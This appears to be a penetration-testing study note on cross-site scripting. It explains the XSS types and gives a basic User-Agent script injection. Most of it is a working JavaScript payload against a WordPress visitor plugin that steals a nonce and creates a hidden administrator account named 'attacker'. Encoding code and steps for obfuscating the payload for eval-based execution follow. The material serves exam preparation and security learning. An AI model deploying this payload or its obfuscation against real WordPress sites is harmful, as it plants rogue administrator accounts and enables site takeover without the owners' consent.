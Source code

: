 # Cross Side Scripting

## Vulnerabilities

* Stored XSS: stored in DB; attack all users
* Reflected XSS: put script in crafted requests or links, attack a sinlge user
* DOM-based XSS: inject script into DOM and execute the exploit; Either stored or reflected

 With access to the DOM, you can redirect login forms, extract passwords, and steal session cookies.

 Look for input fields and try common characters `< > ' " { } ;`.

 URL encoding = % encoding or ascii e.g. %20, %21
 HTML encoding = special `<` or`>` char encoding e.g. `&lt;`,`&gt;`

## Basic Exploit

```html
User-Agent: <script>alert(42)</script>
```

## Privilege Escalation by XSS on WP Instance

Source: 

* Exploit `https://shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/`
* JS Encoding `https://eve.gd/2007/05/23/string-fromcharcode-encoder/`
* URL Encoding `https://www.url-encode-decode.com/`

The script attacks the visitor plugin of WP. It exploit an XSS within the User-Agent header.The Code first requests a nonce using AJAX and then creates a new WP administrator "attacker" with "attackerpass". This payload has to be minified and encoded to be passed to the User-Agent header.

```js
// steal the nonce first
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
// then create a WP admin user
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

First, the JavaScript Payload has to be minified into a oneliner and encoded. We can use `https://jscompress.com` or `https://javascript-minifier.com`.

Next, the JS Encoding function converts every char into UTF-16 integer using `charCodeAt` and concate it with a comma. e.g. 118,97,... 

Alternatively we can use a handy online JS Encoding service `https://eve.gd/2007/05/23/string-fromcharcode-encoder/` that does the job. Or we can use an online URL encoding service `https://www.url-encode-decode.com/`.

```js
function encode_to_javascript(string) {
    var input = string
    var output = '';
    for(pos = 0; pos < input.length; pos++) {
        output += input.charCodeAt(pos);
        if(pos != (input.length - 1)) {
            output += ",";
        }
    }
    return output;
}
        
let encoded = encode_to_javascript('insert_minified_javascript_here')
console.log(encoded)
```


Finally, we can decode the integers on-demand in the script tag using `String.fromCharCode` and execute the script with `eval`.
